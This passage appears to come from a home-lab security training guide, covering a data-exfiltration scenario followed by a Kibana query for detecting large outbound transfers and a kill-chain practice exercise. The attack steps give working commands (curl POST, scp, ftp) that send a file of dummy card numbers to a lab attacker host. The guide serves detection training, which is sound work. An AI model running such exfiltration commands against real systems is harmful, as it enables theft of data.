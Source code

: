 
## Scenario 7: Data Exfiltration

### 🎯 Objective
Simulate data theft and detect large data transfers.

### 🔴 Attack Steps

**On Ubuntu Server (after compromise):**
```bash
# Create fake sensitive data
echo "Sensitive Data: Credit Card Numbers" > /tmp/exfil-data.txt
echo "4111-1111-1111-1111" >> /tmp/exfil-data.txt

# Exfiltrate via HTTP POST
curl -X POST -F "file=@/tmp/exfil-data.txt" http://192.168.1.50:8000/upload

# Exfiltrate via SCP
scp /tmp/exfil-data.txt kali@192.168.1.50:/tmp/

# Exfiltrate via FTP
ftp 192.168.1.50 << EOF
put /tmp/exfil-data.txt
bye
EOF
```

### 🔍 Detection in Kibana

**Query: Large Outbound Transfers**
```json
{
  "query": {
    "bool": {
      "must": [
        {"range": {"network.bytes": {"gte": 1000000}}},
        {"term": {"network.direction": "outbound"}},
        {"match": {"source.ip": "192.168.1.40"}}
      ]
    }
  }
}
```

---

## 🎓 Practice Exercises

### Exercise 1: Multi-Stage Attack
1. Perform reconnaissance (Kali → Ubuntu)
2. Exploit SSH (brute force)
3. Escalate privileges
4. Exfiltrate data
5. **Track the entire kill chain in Kibana**
